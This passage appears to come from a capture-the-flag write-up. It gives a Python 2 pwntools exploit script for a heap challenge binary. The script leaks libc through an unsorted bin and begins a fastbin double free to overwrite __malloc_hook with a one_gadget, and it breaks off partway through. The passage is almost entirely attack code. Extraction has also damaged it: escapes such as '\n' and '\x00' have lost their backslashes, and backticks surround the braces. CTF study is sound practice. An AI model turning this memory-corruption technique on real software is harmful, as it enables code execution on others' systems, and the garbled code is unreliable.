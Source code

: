 ### <a class="reference-link" name="2.4%20Exploit%20Script"></a>2.4 Exploit Script

```
#!/usr/bin/env python2
#coding=utf-8
from pwn import *
import time
local = 1
debug = 1
file = "./secular"
libcPath = ""
if local:
    p = process(file, env=`{`"LD_PRELOAD": libcPath`}`)
    elf = ELF(file)
    libc = elf.libc
else:
    p = remote("ip", port=1234)
if debug:
    context.log_level = "debug"

def add(nameLen, name, luckyNum):
    p.sendlineafter("Choice :", "1")
    p.sendlineafter("Name:", str(nameLen))
    p.sendafter("Name:", name)
    p.sendlineafter("Luckynumber:", luckyNum)

def show(index):
    p.sendlineafter("Choice :", "2")
    p.sendlineafter("Index:", str(index))

def dele(index):
    p.sendlineafter("Choice :", "3")
    p.sendlineafter("Index:", str(index))

def magic(number):
    p.sendlineafter("Choice :", "4")
    p.sendlineafter("Number:", str(number))


#use unsortbin to leak libc address
add(0x100, "0"*0x8, "0")
add(0x10, "1"*0x8, "1")
add(0x10, "2"*0x8, "2")
dele(0)
dele(2)
#gdb.attach(p)
add(0x100, "12345678", "3")
show(3)
p.recvuntil("12345678")
#0x7f4f10f4cb78-0x7f4f10b88000=0x3c4B78
offset = 0x3c4b78
log.success("offset:"+hex(offset))
libc_base = u64(p.recvuntil("n")[ :-1].ljust(8, "x00")) - offset
log.success("libc_base:"+hex(libc_base))

#double free to change __malloc_hook
one_gadget = 0xf02a4
log.success("one_gadget:"+hex(libc_base+one_gadget))
malloc_hook = libc_base + libc.symbols["__malloc_hook"]
log.success("__malloc_hook:"+hex(malloc_hook))
#use fastbin double free to change __malloc_hook
add(0x60, "a"*0x8, "4")
```